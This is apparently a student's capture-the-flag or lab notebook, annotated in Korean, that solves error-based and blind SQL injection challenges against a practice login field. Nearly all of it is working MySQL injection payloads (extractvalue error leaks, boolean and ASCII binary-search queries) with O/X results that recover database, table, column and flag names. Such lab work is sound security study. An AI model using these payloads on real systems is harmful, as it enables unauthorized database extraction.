



# Error Based SQL Injection
## START
1. normaltic

1. normaltic'

1. normaltic' and extractvalue('1', (concat(0x3a, 'test'))) #

## DATABASE
1. normaltic' and extractvalue('1', (concat(0x3a, database()))) #

## TABLE
1. normaltic' and extractvalue('1', (concat(0x3a, select table_name from information_schema.tables where table_schema = 'errSqli' limit 0, 1))) #
-> X
1. normaltic' and extractvalue('1', (concat(0x3a, (select database())))) #

1. normaltic' and extractvalue('1', (concat(0x3a, (select table_name from information_schema.tables where table_schema = 'errSqli' limit 0, 1)))) #

flagTable
1. normaltic' and extractvalue('1', (concat(0x3a, (select count(table_name) from information_schema.tables where table_schema = 'errSqli')))) #

1. normaltic' and extractvalue('1', (concat(0x3a, (select table_name from information_schema.tables where table_schema = 'errSqli' limit 1, 1)))) #

1. normaltic' and extractvalue('1', (concat(0x3a, (select table_name from information_schema.tables where table_schema = 'errSqli' limit 2, 1)))) #

plusFlag_Table

## COLUMN
1. normaltic' and extractvalue('1', (concat(0x3a, (select count(column_name) from information_schema.columns where table_name = 'flagTable')))) #

1. normaltic' and extractvalue('1', (concat(0x3a, (select column_name from information_schema.columns where table_name = 'flagTable' limit 0, 1)))) #

idx
1. normaltic' and extractvalue('1', (concat(0x3a, (select column_name from information_schema.columns where table_name = 'flagTable' limit 1, 1)))) #

flag

## DATA
1. normaltic' and extractvalue('1', (concat(0x3a, (select count(flag) from flagTable)))) #

1. normaltic' and extractvalue('1', (concat(0x3a, (select flag from flagTable)))) #

# Blind SQL Injection
## START
1. normaltic

1. normaltic' # 

1. normaltic' and '1' = '1' #

1. normaltic' and '1' = '2' #

1. normaltic' and ('1' = '1') and '1' = '1' #

1. normaltic' and ('1' = '1') and '1' = '2' #

1. normaltic' and (select 'test' = 'test') and '1' = '1' #

## DATABASE
### 이름 글자수 확인
1. normaltic' and ((char_length(database())) > 10) #

1. normaltic' and ((char_length(database())) < 6) #

1. normaltic' and ((char_length(database())) < 10) #

1. normaltic' and ((char_length(database())) < 8) #

1. normaltic' and ((char_length(database())) = 9) #

아... 9번...

### 이름 확인
1. normaltic' and (ascii(substr((select database()), 1, 1)) > 63) #
ascii 0 ~ 127

1. normaltic' and (ascii(substr((select database()), 1, 1)) > 95) #

1. normaltic' and (ascii(substr((select database()), 1, 1)) > 111) #

1. normaltic' and (ascii(substr((select database()), 1, 1)) > 103) #

1. normaltic' and (ascii(substr((select database()), 1, 1)) > 99) #

1. normaltic' and (ascii(substr((select database()), 1, 1)) > 97) #

1. normaltic' and (ascii(substr((select database()), 1, 1)) = 98) #
-> b

1. normaltic' and (ascii(substr((select database()), 3, 1)) > 64) #

1. normaltic' and (ascii(substr((select database()), 3, 1)) > 96) #

1. normaltic' and (ascii(substr((select database()), 3, 1)) > 112) #

1. normaltic' and (ascii(substr((select database()), 3, 1)) > 104) #

1. normaltic' and (ascii(substr((select database()), 3, 1)) > 108) #

1. normaltic' and (ascii(substr((select database()), 3, 1)) > 106) #

1. normaltic' and (ascii(substr((select database()), 3, 1)) > 105) #

1. normaltic' and (ascii(substr((select database()), 3, 1)) = 105) #

bxi xxx xxx

1. normaltic' and (ascii(substr((select database()), 5, 1)) > 64) #

1. normaltic' and (ascii(substr((select database()), 5, 1)) > 96) #

1. normaltic' and (ascii(substr((select database()), 5, 1)) > 112) #

1. normaltic' and (ascii(substr((select database()), 5, 1)) > 104) #

1. normaltic' and (ascii(substr((select database()), 5, 1)) > 100) #

1. normaltic' and (ascii(substr((select database()), 5, 1)) > 98) #

1. normaltic' and (ascii(substr((select database()), 5, 1)) = 99) #

1. normaltic' and (ascii(substr((select database()), 5, 1)) = 100) #

bxi xdx xxx

1. normaltic' and (ascii(substr((select database()), 7, 1)) > 64) #

1. normaltic' and (ascii(substr((select database()), 7, 1)) > 96) #

1. normaltic' and (ascii(substr((select database()), 7, 1)) > 112) #

1. normaltic' and (ascii(substr((select database()), 7, 1)) > 120) #

1. normaltic' and (ascii(substr((select database()), 7, 1)) > 116) #

1. normaltic' and (ascii(substr((select database()), 7, 1)) > 114) #

1. normaltic' and (ascii(substr((select database()), 7, 1)) > 113) #

1. normaltic' and (ascii(substr((select database()), 7, 1)) = 113) #

bxi xd x qxx

1. normaltic' and (ascii(substr((select database()), 9, 1)) > 64) #

1. normaltic' and (ascii(substr((select database()), 9, 1)) > 96) #

1. normaltic' and (ascii(substr((select database()), 9, 1)) > 112) #

1. normaltic' and (ascii(substr((select database()), 9, 1)) > 104) #

1. normaltic' and (ascii(substr((select database()), 9, 1)) > 108) #

1. normaltic' and (ascii(substr((select database()), 9, 1)) > 106) #

1. normaltic' and (ascii(substr((select database()), 9, 1)) > 105) #

1. normaltic' and (ascii(substr((select database()), 9, 1)) = 105) #

bxi xd x qxi
-> blindsqli -> s가 대문자일 수도 있어

1. normaltic' and (ascii(substr((select database()), 6, 1)) > 64) #

1. normaltic' and (ascii(substr((select database()), 6, 1)) > 96) #

1. normaltic' and (ascii(substr((select database()), 6, 1)) > 80) #

1. normaltic' and (ascii(substr((select database()), 6, 1)) > 88) #

1. normaltic' and (ascii(substr((select database()), 6, 1)) > 84) #

1. normaltic' and (ascii(substr((select database()), 6, 1)) > 82) #

1. normaltic' and (ascii(substr((select database()), 6, 1)) > 83) #

1. normaltic' and (ascii(substr((select database()), 6, 1)) = 83) #

bxixdSqxi -> blindSqli

## TABLE
### 개수 확인
1. normaltic' and ((select count(table_name) from information_schema.tables where table_schema = 'blindSqli') < 5) #
-> O
1. normaltic' and ((select count(table_name) from information_schema.tables where table_schema = 'blindSqli') < 3) #
-> X
1. normaltic' and ((select count(table_name) from information_schema.tables where table_schema = 'blindSqli') < 4) #
-> O
3개

### 이름 글자수 확인
#### 1번째 table
1. normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 0, 1))) < 10) #
-> O
1. normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 0, 1))) < 5) #
-> X
1. normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 0, 1))) < 7) #
-> X
1. normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 0, 1))) < 8) #
-> X
1. normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 0, 1))) = 9) #
-> O
아... 9개...
-> flagTable?

#### 2번째 table
1. normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 1, 1))) < 10) #
-> O
1. normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 1, 1))) < 5) #
-> X
1. normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 1, 1))) < 7) #
-> O
1. normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 1, 1))) < 6) #
-> X
1. normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 1, 1))) = 6) #
-> O
아... 6개...
-> member?

#### 3번째 table
1. normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 2, 1))) < 10) #
-> X
1. normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 2, 1))) < 20) #
-> O
1. normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 2, 1))) < 15) #
-> O
1. normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 2, 1))) < 13) #
-> X
1. normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 2, 1))) < 14) #
-> X
1. normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 2, 1))) = 14) #
-> O
아... 14개...
-> plusflagtable?

### 이름 확인
#### 1번째 table
1. normaltic' and (ascii(substr(((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 0, 1)), 1, 1)) = 102) #
-> O
fxxx xxxxx
1. normaltic' and (ascii(substr(((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 0, 1)), 5, 1)) = 84) #
-> O
fxxx Txxxx
1. normaltic' and (ascii(substr(((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 0, 1)), 3, 1)) = 97) #
-> O
fxax Txxxx
1. normaltic' and (ascii(substr(((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 0, 1)), 6, 1)) = 97) #
-> O
fxaxTaxxx
1. normaltic' and (ascii(substr(((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 0, 1)), 9, 1)) = 101) #
-> O
fxaxTaxxe -> flagTable
1. normaltic' and (ascii(substr(((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 0, 1)), 2, 1)) = 108) #
-> O
flaxTaxxe -> flagTable
1. normaltic' and (ascii(substr(((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 0, 1)), 8, 1)) = 108) #
-> O
flaxTaxle -> flagTable

#### 2번째

#### 3번째

## COLUMN
### 개수 확인
1. normaltic' and ((select count(column_name) from information_schema.columns where table_name = 'flagTable') < 5) #
-> O
1. normaltic' and ((select count(column_name) from information_schema.columns where table_name = 'flagTable') < 3) #
-> O
1. normaltic' and ((select count(column_name) from information_schema.columns where table_name = 'flagTable') < 2) #
-> X
1. normaltic' and ((select count(column_name) from information_schema.columns where table_name = 'flagTable') = 2) #
-> O

### 글자수 확인
#### 1번째
1. normaltic' and ((char_length((select column_name from information_schema.columns where table_name = 'flagTable' limit 0, 1))) < 10) #
-> O
1. normaltic' and ((char_length((select column_name from information_schema.columns where table_name = 'flagTable' limit 0, 1))) < 5) #
-> O
1. normaltic' and ((char_length((select column_name from information_schema.columns where table_name = 'flagTable' limit 0, 1))) < 3) #
-> X
1. normaltic' and ((char_length((select column_name from information_schema.columns where table_name = 'flagTable' limit 0, 1))) = 4) #
-> X
1. normaltic' and ((char_length((select column_name from information_schema.columns where table_name = 'flagTable' limit 0, 1))) = 3) #
-> X
-> idx?

#### 2번째
1. normaltic' and ((char_length((select column_name from information_schema.columns where table_name = 'flagTable' limit 1, 1))) < 10) #
-> O
1. normaltic' and ((char_length((select column_name from information_schema.columns where table_name = 'flagTable' limit 1, 1))) < 5) #
-> O
1. normaltic' and ((char_length((select column_name from information_schema.columns where table_name = 'flagTable' limit 1, 1))) < 3) #
-> X
1. normaltic' and ((char_length((select column_name from information_schema.columns where table_name = 'flagTable' limit 1, 1))) = 4) #
-> O
-> flag?

### 이름 확인
#### 1번째

#### 2번째
1. normaltic' and (ascii(substr(((select column_name from information_schema.columns where table_name = 'flagTable' limit 1, 1)), 1, 1)) = 102) #
-> O
1. normaltic' and (ascii(substr(((select column_name from information_schema.columns where table_name = 'flagTable' limit 1, 1)), 2, 1)) = 108) #
-> O
1. normaltic' and (ascii(substr(((select column_name from information_schema.columns where table_name = 'flagTable' limit 1, 1)), 3, 1)) = 97) #
-> O
1. normaltic' and (ascii(substr(((select column_name from information_schema.columns where table_name = 'flagTable' limit 1, 1)), 4, 1)) = 103) #
-> O
flag

## DATA
### 개수 확인
1. normaltic' and ((select count(flag) from flagTable) < 5) #
-> O
1. normaltic' and ((select count(flag) from flagTable) < 3) #
-> O
1. normaltic' and ((select count(flag) from flagTable) < 2) #
-> O
1. normaltic' and ((select count(flag) from flagTable) = 1) #
-> O

### 글자수 확인
1. normaltic' and ((char_length((select flag from flagTable))) > 10) #
-> O
1. normaltic' and ((char_length((select flag from flagTable))) > 20) #
-> O
1. normaltic' and ((char_length((select flag from flagTable))) > 30) #
-> O
1. normaltic' and ((char_length((select flag from flagTable))) > 40) #
-> X
1. normaltic' and ((char_length((select flag from flagTable))) > 35) #
-> X
1. normaltic' and ((char_length((select flag from flagTable))) > 32) #
-> O
1. normaltic' and ((char_length((select flag from flagTable))) > 34) #
-> X
1. normaltic' and ((char_length((select flag from flagTable))) > 33) #
-> X
1. normaltic' and ((char_length((select flag from flagTable))) = 33) #
-> O

### 이름 확인
1. normaltic' and (ascii(substr(((select flag from flagTable)), 1, 1)) = 115) #
-> O
sxxxx xxxxx xxxxx xxxxx xxxxx xxxxx x
segfa ult{x xxxxx xxxxx xxxxx xxxxx }
1. normaltic' and (ascii(substr(((select flag from flagTable)), 9, 1)) = 123) #
-> O
sxxxx xxx{x xxxxx xxxxx xxxxx xxxxx x
segfa ult{x xxxxx xxxxx xxxxx xxxxx }
1. normaltic' and (ascii(substr(((select flag from flagTable)), 33, 1)) = 125) #
-> O
sxxxx xxx{x xxxxx xxxxx xxxxx xxxxx xx}
segfa ult{x xxxxx xxxxx xxxxx xxxxx xx}

1. normaltic' and (ascii(substr(((select flag from flagTable)), 10, 1)) > 64) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 10, 1)) > 96) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 10, 1)) > 80) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 10, 1)) > 72) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 10, 1)) > 70) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 10, 1)) > 68) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 10, 1)) > 67) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 10, 1)) > 66) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 10, 1)) = 67) #
-> O
sxxxx xxx{C xxxxx xxxxx xxxxx xxxxx xx} -> segfa ult{x xxxxx xxxxx xxxxx xxxxx xx}

1. normaltic' and (ascii(substr(((select flag from flagTable)), 12, 1)) > 64) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 12, 1)) > 96) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 12, 1)) > 112) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 12, 1)) > 104) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 12, 1)) > 108) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 12, 1)) > 110) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 12, 1)) > 109) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 12, 1)) = 110) #
-> O
sxxxx xxx{C xnxxx xxxxx xxxxx xxxxx xx} -> segfa ult{C xnxxx xxxxx xxxxx xxxxx xx}

1. normaltic' and (ascii(substr(((select flag from flagTable)), 14, 1)) > 64) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 14, 1)) > 96) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 14, 1)) > 112) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 14, 1)) > 120) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 14, 1)) > 116) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 14, 1)) > 114) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 14, 1)) > 113) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 14, 1)) = 114) #
-> O
sxxxx xxx{C xnxrx xxxxx xxxxx xxxxx xx} -> segfa ult{C xnxrx xxxxx xxxxx xxxxx xx}

1. normaltic' and (ascii(substr(((select flag from flagTable)), 16, 1)) > 64) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 16, 1)) > 96) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 16, 1)) > 112) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 16, 1)) > 120) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 16, 1)) > 116) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 16, 1)) > 114) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 16, 1)) > 115) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 16, 1)) = 116) #
-> O
sxxxx xxx{C xnxrx txxxx xxxxx xxxxx xx} -> segfa ult{C xnxrx xxxxx txxxx xxxxx xx}

1. normaltic' and (ascii(substr(((select flag from flagTable)), 18, 1)) > 64) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 18, 1)) > 96) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 18, 1)) > 80) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 18, 1)) > 88) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 18, 1)) > 92) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 18, 1)) > 94) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 18, 1)) > 95) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 18, 1)) = 95) #
-> O
sxxxx xxx{C xnxrx tx_xx xxxxx xxxxx xx} -> segfa ult{C xnxrx xxxxx tx_xx xxxxx xx}

1. normaltic' and (ascii(substr(((select flag from flagTable)), 20, 1)) > 64) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 20, 1)) > 96) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 20, 1)) > 112) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 20, 1)) > 104) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 20, 1)) > 108) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 20, 1)) > 106) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 20, 1)) > 105) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 20, 1)) = 105) #
-> O
sxxxx xxx{C xnxrx tx_xi xxxxx xxxxx xx} -> segfa ult{C xnxrx xxxxx tx_xi xxxxx xx}

1. normaltic' and (ascii(substr(((select flag from flagTable)), 22, 1)) > 64) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 22, 1)) > 96) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 22, 1)) > 112) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 22, 1)) > 120) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 22, 1)) > 116) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 22, 1)) > 114) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 22, 1)) > 115) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 22, 1)) = 115) #
-> O
sxxxx xxx{C xnxrx tx_xi xsxxx xxxxx xx} -> segfa ult{C xnxrx xxxxx tx_xi xsxxx xx}

1. normaltic' and (ascii(substr(((select flag from flagTable)), 24, 1)) > 64) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 24, 1)) > 96) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 24, 1)) > 80) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 24, 1)) > 72) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 24, 1)) > 68) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 24, 1)) > 66) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 24, 1)) > 65) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 24, 1)) = 66) #
-> O
sxxxx xxx{C xnxrx tx_xi xsxBx xxxxx xx} -> segfa ult{C xnxrx tx_xi xsxBx xxxxx xx}

1. normaltic' and (ascii(substr(((select flag from flagTable)), 26, 1)) > 64) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 26, 1)) > 96) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 26, 1)) > 112) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 26, 1)) > 104) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 26, 1)) > 108) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 26, 1)) > 106) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 26, 1)) > 105) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 26, 1)) = 105) #
-> O
sxxxx xxx{C xnxrx tx_xi xsxBx ixxxx xx} -> 
segfa ult{C xnxrx tx_xi xsxBl indxx xx}

1. normaltic' and (ascii(substr(((select flag from flagTable)), 29, 1)) = 83) #
-> O
sxxxx xxx{C xnxrx tx_xi xsxBx ixxxx xx} -> 
segfa ult{C xnxrx tx_xi xsxBl indSq li}

1. normaltic' and (ascii(substr(((select flag from flagTable)), 19, 1)) > 64) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 19, 1)) > 96) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 19, 1)) > 112) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 19, 1)) > 104) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 19, 1)) > 100) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 19, 1)) > 102) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 19, 1)) > 101) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 19, 1)) = 102) #
-> O
sxxxx xxx{C xnxrx tx_fi xsxBx ixxSx xx} -> 
segfa ult{C xnxrx tx_xi xsxBl indSq li}

1. normaltic' and (ascii(substr(((select flag from flagTable)), 21, 1)) > 64) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 21, 1)) > 96) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 21, 1)) > 112) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 21, 1)) > 120) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 21, 1)) > 116) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 21, 1)) > 114) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 21, 1)) > 113) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 21, 1)) = 114) #
-> O
sxxxx xxx{C xnxrx tx_fi rsxBx ixxSx xx} -> 
segfa ult{C xnxrx tx_fi rstBl indSq li}

1. normaltic' and (ascii(substr(((select flag from flagTable)), 11, 1)) > 64) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 11, 1)) > 96) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 11, 1)) > 112) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 11, 1)) > 104) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 11, 1)) > 108) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 11, 1)) > 110) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 11, 1)) > 111) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 11, 1)) = 111) #
-> O
sxxxx xxx{C onxrx tx_fi rsxBx ixxSx xx} -> 
segfa ult{C onxrx tx_fi rstBl indSq li}

1. normaltic' and (ascii(substr(((select flag from flagTable)), 17, 1)) > 64) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 17, 1)) > 96) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 17, 1)) > 112) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 17, 1)) > 120) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 17, 1)) > 124) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 17, 1)) > 122) #
-> X
1. normaltic' and (ascii(substr(((select flag from flagTable)), 17, 1)) > 121) #
-> O
1. normaltic' and (ascii(substr(((select flag from flagTable)), 17, 1)) = 122) #
-> O
sxxxx xxx{C onxrx tz_fi rsxBx ixxSx xx} -> 
segfa ult{C ongra tz_fi rstBl indSq li}